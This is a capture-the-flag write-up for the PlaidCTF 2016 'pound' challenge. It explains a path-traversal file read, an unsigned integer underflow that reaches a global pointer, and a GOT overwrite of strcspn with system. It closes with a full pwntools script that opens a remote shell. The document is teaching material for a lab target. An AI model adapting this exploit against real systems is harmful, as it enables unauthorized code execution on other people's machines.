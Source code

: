 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/plaidctf-2016-pound/
  - /blog/2016/04/18/plaidctf-2016-pound/
date: 2016-04-18T06:00:03+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf" ]
---
```


# PlaidCTF 2016 pound

I like the gimmick to give the source code and compiled binaries.

## solution

### host.py

To get some required information, choose `1. Read Trump article` and send a relative path from `./tweets`.
You may want to read the paths:

-   `../pound.c`
-   `../../../../lib32/libc.so.6`
-   `../sims/sim-XXXX`
-   `../../../../proc/self/maps`

### pound.c

To make a vulnerability, you can use `0u`.
If `#define L1 0u`, `for (i=0; i < L1-1; i++)` becomes `for (i=0; i < 0xffffffff; i++)` by mixing signed and unsigned integers.

To be able to read/write somewhere, use the `char *announcement;`.
If you can modify this, read/write are done by `0. Print state`, `4. Create Announcement`.
Now, in `2. Simulate Propagate Forward` or `3. Simulate Propagate Backward`, the first loops don't terminate until it reaches a null dword.
So if you make `L1` and `L2` to `0u`, fill `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` with positives, it will reaches the `char *announcement;` and `int announcement_length;`.
When you use `2. Simulate Propagate Forward` with amount $k$, the null dword and the previous dword are increased by $k$.

To get shell, we need to know libc base address and let to call `system` with `/bin/sh`.
The both read/write can/should be done at once.
Make the `announcement` a pointer to the GOT, then read, and write the same address.
You should write `/bin/sh` and the address to `system` with `if (fgets (global.announcement, len, stdin) == NULL)` in `void create_announcement ()`, as the succeeding `strcspn(global.announcement, "\n")` acts as `system("/bin/sh", "\n")`.

### note

At this time, the GOT was like below.

``` sh
$ objdump -R sim

sim:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804affc R_386_GLOB_DAT    __gmon_start__
0804b040 R_386_COPY        stdin@@GLIBC_2.0
0804b060 R_386_COPY        stdout@@GLIBC_2.0
0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804b010 R_386_JUMP_SLOT   strcspn@GLIBC_2.0
0804b014 R_386_JUMP_SLOT   free@GLIBC_2.0
0804b018 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804b01c R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804b020 R_386_JUMP_SLOT   __gmon_start__
0804b024 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804b028 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804b02c R_386_JUMP_SLOT   __isoc99_sscanf@GLIBC_2.7
0804b030 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804b034 R_386_JUMP_SLOT   rand@GLIBC_2.0
```

By the way, what was `int secret;`?

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('sim')
libc = ELF('libc.so.6')

p = remote(args.host, args.port)

p.sendline('2')
p.recvuntil('[Smaller] State 1 Size:')
p.sendline('0u')
p.recvuntil('[Larger] State 2 Size:')
p.sendline('0u')

p.recvuntil('Enter the name of the first state:')
p.send('A' * 512)
p.recvuntil('Enter the name of the second state:')
p.send('A' * 512)
p.recvuntil('Enter Your Choice: ')
p.sendline('')

log.info('strcspn got: ' + hex(elf.got['strcspn']))
p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(elf.got['strcspn'] - 21))

p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(13))

p.recvuntil('Enter Your Choice: ')
p.sendline('0')
p.recvuntil('PSA: ')
p.recv(16)
libc_base = u32(p.recv(4)) - libc.symbols['fgets']
log.info('libc base: ' + hex(libc_base))

p.recvuntil('Enter Your Choice: ')
p.sendline('4')
p.recvuntil('Enter the length of your announcement: ')
p.sendline(str(13))
p.sendline('/bin/sh\0' + p32(libc_base + libc.symbols['system']))

time.sleep(1)
p.sendline('id')
p.interactive()
```
